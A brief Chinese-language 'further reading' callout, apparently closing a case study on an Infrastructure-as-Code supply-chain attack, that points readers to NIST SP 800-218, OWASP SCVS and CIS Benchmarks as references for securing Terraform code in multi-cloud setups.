> **延伸阅读**：本案例展示了 IaC 供应链攻击的完整攻击链。在实际防御中，建议参考 NIST SP 800-218（SSDF 安全软件开发框架）和 OWASP Software Component Verification Standard（SCVS）建立系统性的供应链安全管理流程。对于多云环境，CIS Benchmarks 提供了 AWS、Azure 和 GCP 各自的安全配置基线，应作为 Terraform 代码审查的参照标准。
